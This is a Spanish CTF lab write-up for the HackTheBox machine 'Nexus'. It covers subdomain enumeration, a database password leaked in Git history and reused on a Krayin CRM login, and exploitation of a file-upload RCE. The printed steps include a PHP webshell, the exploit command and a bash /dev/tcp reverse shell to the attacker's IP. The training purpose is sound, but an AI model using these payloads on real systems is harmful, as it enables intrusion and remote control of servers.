# HTB | Nexus

**Machine** - Nexus
**OS** - Linux
**Difficulty** - Easy
**IP** - 10.129.175.212
**Fecha** - 19/10/2026



---

## 1. Enumeración (Reconnaissance)
### Escaneo de Puertos (Nmap)

Comenzamos la fase de reconocimiento lanzando un escaneo completo sobre la máquina. Escaneamos todos los puertos (`-p-`), detectamos servicios y versiones junto a los scripts por defecto (`-sCV`) y aceleramos el proceso enviando al menos 5000 paquetes por segundo (`--min-rate=5000`):

```bash
sudo nmap -sCV -p- --min-rate=5000 -oN nmap.txt 10.129.175.212
```

```text
Starting Nmap 7.992 ( https://nmap.org ) at 2026-10-19 19:44 +0000
Nmap scan report for 10.129.175.212
Host is up (0.047s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nexus.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.97 seconds
```

El escaneo nos deja únicamente dos puertos abiertos:

- **22 (SSH)**: OpenSSH 9.6p1 sobre Ubuntu. Lo reservamos para cuando dispongamos de credenciales válidas.
- **80 (HTTP)**: Un servidor nginx 1.24.0 que intenta redirigir al dominio `nexus.htb`. Deberemos añadir este dominio a nuestro `/etc/hosts` para que la resolución funcione.

Añadimos el dominio a nuestro archivo de resolución:

```bash
sudo vim /etc/hosts
# Añadimos la línea: 10.129.175.212 nexus.htb
```

### Enumeración Web (Puerto 80)



Al acceder a `http://nexus.htb` nos encontramos con el portal de **Nexus Energy Authority**, una supuesta agencia gubernamental del sector energético. Es una web corporativa estática con secciones sobre sus programas, el *mix* energético nacional, noticias y un apartado de empleo.

Dos zonas llaman la atención desde el punto de vista de la enumeración:

- La sección de **reseñas (testimonials)**, que expone nombres de personas (Katharina Meier, Thomas Patel, Dr. Sara Fernandez). Los anotamos, ya que podrían convertirse en nombres de usuario del sistema.



- El apartado **Careers → "Join our team"**. Al pulsar el botón *View role* se despliega un modal con la oferta de empleo y, al final del mismo, una sección "Ready to apply" que filtra dos direcciones de correo:



```text
Ready to apply?

Send your CV and a short cover note with the subject line "Operations Specialist – Customer Platforms".
Apply at careers@nexus.htb

Questions? Reach out to our hiring manager: j.matthew@nexus.htb
```

El dato más interesante es el correo del *hiring manager*: **`j.matthew@nexus.htb`**. El formato `j.matthew` encaja con un nombre de usuario típico del sistema (inicial del nombre + apellido), así que lo guardamos como posible usuario de cara a futuros accesos.

Para identificar el *stack* tecnológico nos apoyamos en Wappalyzer:



```text
Web servers:       Nginx 1.24.0
Reverse proxies:   Nginx 1.24.0
Operating systems: Ubuntu
Font scripts:      Google Font API
```

No aporta nada que no supiéramos ya por nmap: nginx haciendo también de proxy inverso sobre Ubuntu. Ese detalle del **reverse proxy** es relevante: sugiere que por detrás puede haber más aplicaciones servidas bajo distintos *virtual hosts*.

### Enumeración de Directorios

Como la web principal no ofrece funcionalidad interactiva, lanzamos un *fuzzing* de directorios con `dirsearch` para descartar paneles ocultos:

```bash
dirsearch -u http://nexus.htb/
```

```text
  _|. _ _  _  _  _ _|_    v0.5.0
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12295

Target: http://nexus.htb/

[19:49:25] Scanning: 
[19:49:44] 200 -   48KB - /index.html

Task Completed
```

El resultado es limpio: solo el `index.html`. Esto refuerza la idea de que el vector de entrada no está en el sitio principal, sino en otra aplicación servida por el proxy.

### Enumeración de Subdominios (VHOSTS)

Dado que nginx actúa como *reverse proxy*, realizamos un descubrimiento de *virtual hosts* con `gobuster`. En entornos corporativos es habitual que un mismo servidor aloje varias aplicaciones bajo distintos subdominios:

```bash
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://nexus.htb/ --append-domain
```

```text
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://nexus.htb/
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] Append Domain:             true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
git.nexus.htb     Status: 200 [Size: 14474]
billing.nexus.htb Status: 302 [Size: 390] [--> http://billing.nexus.htb/admin/login]
```

Aquí sí aparece información jugosa. Descubrimos **dos subdominios nuevos**:

- **`git.nexus.htb`** → responde con un `200 OK`. El nombre sugiere algún tipo de servicio de alojamiento de repositorios Git (Gitea, GitLab…).
- **`billing.nexus.htb`** → responde con un `302` que redirige a `/admin/login`, lo que delata un panel de administración de alguna aplicación de facturación.

Añadimos ambos subdominios a nuestro `/etc/hosts`:

```bash
sudo vim /etc/hosts
# 10.129.175.212 nexus.htb git.nexus.htb billing.nexus.htb
```

Con dos nuevas superficies de ataque identificadas, el siguiente paso es enumerarlas en detalle para encontrar nuestro punto de entrada.

### Enumeración de `git.nexus.htb` (Gitea)



Al acceder a `http://git.nexus.htb` nos recibe una instancia de **Gitea**, un servicio de alojamiento de repositorios Git autoalojado. Nos ofrece el formulario de inicio de sesión (que admite tanto nombre de usuario como correo), pero de momento **no disponemos de credenciales** válidas.

Wappalyzer confirma la tecnología por detrás:

```text
Web servers:         Nginx 1.24.0
Programming languages: Go
Operating systems:   Ubuntu
Miscellaneous:       Open Graph, PWA
```

El dato más importante lo encontramos en el pie de página del sitio, que nos revela la versión exacta:

```text
Powered by Gitea · Version: 1.26.0
```



Anotamos la versión **Gitea 1.26.0** por si resultara vulnerable a algún CVE conocido, y la dejamos aparcada de momento para revisar antes el panel de facturación. Más adelante volveremos sobre ella para enumerar los repositorios públicos.

### Enumeración de `billing.nexus.htb` (Krayin CRM)



El subdominio `billing.nexus.htb` nos redirige a `/admin/login`, un panel de inicio de sesión. El pie de página delata el software que corre por detrás:

```text
Powered by Krayin, an open-source project by Webkul.
```

Se trata de **Krayin CRM**, un CRM open-source desarrollado por Webkul sobre el framework **Laravel**. Como de costumbre, no tenemos credenciales para autenticarnos directamente.

Sin embargo, al revisar la parte inferior de la página detectamos algo que no debería estar ahí: una **barra de depuración (PHPDebugBar)** completamente funcional, que nos deja inspeccionar peticiones, mensajes, vistas, *queries* SQL, etc.



Esto es un hallazgo crítico. Analizando el código fuente de la página encontramos, embebida en el JavaScript del DebugBar, la configuración interna de la aplicación:

```json
"laravel": {
    "version": "12.x",
    "tooltip": {
        "Laravel Version": "12.54.1",
        "PHP Version": "8.3.6",
        "Environment": "local",
        "Debug Mode": "Enabled",
        "URL": "billing.nexus.htb",
        "Timezone": "Asia/Kolkata",
        "Locale": "en"
    }
}
```

Dos banderas rojas enormes:

- **`"Environment": "local"`** → la aplicación se ejecuta en modo de desarrollo, no en producción.
- **`"Debug Mode": "Enabled"`** → el modo *debug* de Laravel está activo de cara al exterior.

Dejar el modo *debug* de Laravel activo en una aplicación accesible públicamente es una mala práctica de seguridad grave. Expone trazas de error detalladas y, en este caso, habilita el **PHPDebugBar**, que además mantiene un almacén de las peticiones que la aplicación va procesando. En la propia página ya vemos cómo filtra información sensible como los tokens de sesión y CSRF:

```text
request_cookies
    "XSRF-TOKEN"        => "5mru0GIH4NW4dG5ZOjDazxRJw0ujlA0UJv05zISS"
    "krayin_crm_session" => "0XfbdIiIq2jdXxD33NawMlv0dQWx9q3tZXyt7kip"
```

En teoría, el DebugBar puede guardar el **contenido completo de cada petición** (incluidos los cuerpos `POST`) en un almacén accesible a través del *endpoint* `/_debugbar/open`. Si estuviera habilitado y algún usuario iniciara sesión en el CRM, su petición de *login* —con el email y la contraseña en texto plano— quedaría registrada y podríamos recuperarla. Lo comprobamos:

```bash
curl -s "http://billing.nexus.htb/_debugbar/open" | jq .
```

```text
[
  {
    "datetime": "2026-10-21 00:03:10",
    "id": null,
    "ip": "<TU_IP>",
    "method": "ERROR",
    "uri": "!! To enable public access to previous requests, set debugbar.storage.open to true in your config, or enable DEBUGBAR_OPEN_STORAGE if you did not publish the config. !!",
    "utime": 1792521190.764237
  }
]
```

El propio *endpoint* nos responde que el **acceso público al almacén de peticiones anteriores está deshabilitado** (`debugbar.storage.open = false`). Por tanto, aunque el modo *debug* esté activo, no podemos listar ni volcar peticiones antiguas, y esta vía de cosecha de credenciales queda cerrada.

Con el panel de facturación bloqueado por credenciales, retomamos el servicio que habíamos dejado aparcado: **Gitea**.

### Enumeración de repositorios en Gitea

Gitea permite la navegación anónima de todo el contenido marcado como público. En lugar de ir a ciegas por la interfaz web, consultamos directamente su **API REST**, que no requiere autenticación para listar repositorios y usuarios públicos:

```bash
curl -s "http://git.nexus.htb/api/v1/repos/search?limit=50" | jq -r '.data[].full_name'
```

```text
admin/krayin-docker-setup
```

```bash
curl -s "http://git.nexus.htb/api/v1/users/search?limit=50" | jq -r '.data[].login'
```

```text
admin
jones
```

La API nos devuelve dos piezas de información muy valiosas:

- Un **repositorio público**, `admin/krayin-docker-setup`, que por su nombre contiene el entorno de despliegue (Docker) del CRM de facturación. Este tipo de repositorios suele incluir ficheros `docker-compose.yml` y `.env` con credenciales de base de datos, el `APP_KEY` de Laravel e incluso las credenciales por defecto del administrador.
- Dos **usuarios**: `admin` y `jones`. El segundo, `jones`, no lo habíamos visto antes; lo anotamos como posible usuario del sistema de cara a un acceso por SSH o a la reutilización de contraseñas.

Clonamos el repositorio para inspeccionarlo en local:

```bash
git clone http://git.nexus.htb/admin/krayin-docker-setup.git
```

### Fuga de credenciales en el historial de Git

El repositorio contiene un `.env` y un `docker-compose.yml`, pero al revisarlos vemos que están "sanitizados": los campos sensibles (`APP_KEY`, `DB_PASSWORD`…) aparecen vacíos.

```bash
cat .env
```

```text
APP_KEY=
APP_DEBUG=true
APP_URL=http://billing.nexus.htb
...
DB_CONNECTION=mysql
DB_HOST=krayin-mysql
DB_DATABASE=krayin
DB_USERNAME=krayin
DB_PASSWORD=
...
```

Sin embargo, al clonar el repositorio observamos que arrastra historial (`Total 8, delta 1`). Un patrón habitual es que un desarrollador suba por error un fichero con secretos y lo "limpie" en un commit posterior, olvidando que **Git conserva todo el historial**. Listamos los commits:

```bash
git log --oneline --all
```

```text
9b817fa (HEAD -> main, origin/main, origin/HEAD) Upload files to "/"
1615c46 Upload files to "/"
```

Hay dos commits. Revisamos las diferencias de todo el historial filtrando por términos sensibles:

```bash
git log -p --all | grep -iE 'APP_KEY|PASSWORD|secret|@nexus|ROOT'
```

```text
Author: admin <admin@nexus.htb>
 APP_KEY=
-DB_PASSWORD=N27xh!!2ucY04
+DB_PASSWORD=
Author: admin <admin@nexus.htb>
+APP_KEY=
+DB_PASSWORD=N27xh!!2ucY04
...
```

Aquí está el fallo. El **primer commit** (`1615c46`) subió el `.env` con la contraseña de base de datos en claro, y el **segundo commit** (`9b817fa`) la eliminó. Pero esa contraseña sigue perfectamente accesible en el historial:

```text
DB_PASSWORD=N27xh!!2ucY04
```

Además, el autor de los commits es **`admin@nexus.htb`**, lo que nos da un correo válido asociado al administrador. En entornos reales (y especialmente en estas máquinas) es muy común la **reutilización de contraseñas**, así que probaremos esta credencial contra el panel de Krayin, Gitea y SSH.

| Campo | Valor |
|---|---|
| Contraseña | `N27xh!!2ucY04` |
| Correo (admin) | `admin@nexus.htb` |
| Usuarios candidatos | `admin`, `jones`, `j.matthew` |


## 2. Acceso Inicial (Foothold)
### Acceso al panel de Krayin (reutilización de credenciales)

Probamos la contraseña filtrada contra el panel de administración de Krayin. Tras varios intentos con los distintos correos candidatos, la combinación que funciona es la del *hiring manager* que habíamos anotado en la enumeración web:

```text
Usuario:    j.matthew@nexus.htb
Contraseña: N27xh!!2ucY04
```

Iniciamos sesión correctamente y accedemos al `/admin/dashboard` del CRM:



> **Nota:** la contraseña, que en el repositorio aparecía como `DB_PASSWORD`, estaba siendo reutilizada como contraseña de la cuenta de usuario del CRM. Es el clásico ejemplo de por qué nunca se deben reutilizar credenciales entre servicios.

Haciendo clic sobre nuestro usuario (esquina superior derecha) vemos la versión exacta de la aplicación:



```text
Version: 2.2.0
```

### CVE-2026-38526 — Subida de ficheros arbitraria autenticada (RCE)

Una búsqueda de vulnerabilidades para **Krayin CRM 2.2.x** nos lleva a **CVE-2026-38526**, un fallo crítico (CVSS 9.9) de **subida de ficheros arbitraria autenticada que deriva en ejecución remota de código (RCE)**. Existe PoC pública en Exploit-DB (ID 52629).

El flujo técnico de la vulnerabilidad es el siguiente:

1. **El endpoint vulnerable:** Krayin integra el editor de texto enriquecido TinyMCE, que expone un *endpoint* de subida de imágenes en `POST /admin/tinymce/upload`. Está pensado para que un usuario autenticado suba imágenes a sus leads, notas, correos, etc.
2. **Validación insuficiente (CWE-434):** el *endpoint* no valida correctamente el tipo de fichero y, lo más grave, **conserva la extensión original** del archivo subido al guardarlo en el servidor.
3. **Ejecución:** como el fichero se almacena en una ruta servida por el servidor web (bajo `storage/`), podemos subir un `.php` con nuestro código y, al visitar su URL, el intérprete de PHP lo ejecutará con los privilegios del servicio web.

Fuentes:

- [Exploit-DB 52629 — Krayin CRM v2.2.x Authenticated RCE](https://www.exploit-db.com/exploits/52629)
- [CVE-2026-38526 — OpenCVE](https://app.opencve.io/cve/CVE-2026-38526)
- [SOCRadar — CVE-2026-38526 Krayin CRM RCE](https://socradar.io/blog/cve-2026-38526-krayin-crm-rce/)

Dado que ya disponemos de una sesión válida en el panel, cumplimos el único requisito del exploit (estar autenticados), por lo que podemos abusar de este *endpoint* para conseguir nuestro punto de entrada en la máquina.

### Explotación: de la subida al RCE

Descargamos el PoC desde Exploit-DB y lo analizamos:

```bash
searchsploit -m 52629
```

El script es sencillo: hace *login* con nuestras credenciales, recupera el token `XSRF-TOKEN` de la cookie de sesión, y sube el fichero que le indiquemos al *endpoint* `/admin/tinymce/upload`, devolviéndonos la URL final del archivo. **Importante:** el exploit únicamente **sube** el fichero; la ejecución la provocaremos nosotros visitando su URL.

Creamos un *webshell* mínimo en PHP que ejecute comandos recibidos por el parámetro `cmd`:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Y lanzamos el exploit (ojo con los *flags*: `-t` es la URL, `-u` el usuario, `-p` la contraseña y `-f` el fichero):

```bash
python3 52629.py -t http://billing.nexus.htb -u j.matthew@nexus.htb -p 'N27xh!!2ucY04' -f shell.php
```

```text
[+] File uploaded successfully.
Path to file: http://billing.nexus.htb/storage/tinymce/829abd99c7cf1a4020f95b02ec7f3668.php
```

El fichero se ha guardado **conservando su extensión `.php`** en una ruta pública. Comprobamos que efectivamente tenemos ejecución remota de comandos pasándole `cmd=id`:

```bash
curl "http://billing.nexus.htb/storage/tinymce/829abd99c7cf1a4020f95b02ec7f3668.php?cmd=id"
```

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



### Reverse Shell

Con el RCE confirmado, lanzamos una *reverse shell*. Dejamos un *listener* a la escucha en nuestra máquina (en este caso usamos **penelope**, por comodidad con el *upgrade* automático a PTY) y disparamos la conexión.

Como nuestro *webshell* lee el comando desde `$_GET`, forzamos que `curl` envíe el parámetro por la *query string* con el *flag* `-G` (de lo contrario lo mandaría en el cuerpo POST y `$_GET` no lo recibiría):

```bash
curl -G "http://billing.nexus.htb/storage/tinymce/829abd99c7cf1a4020f95b02ec7f3668.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/<TU_IP>/4444 0>&1'"
```

En nuestro *listener* recibimos la conexión como `www-data`, con la shell ya estabilizada a PTY:

```text
[+] Got reverse shell from nexus~10.129.176.242-Linux-x86_64 😍️ Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪

www-data@nexus:~/krayin/storage/app/public/tinymce$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
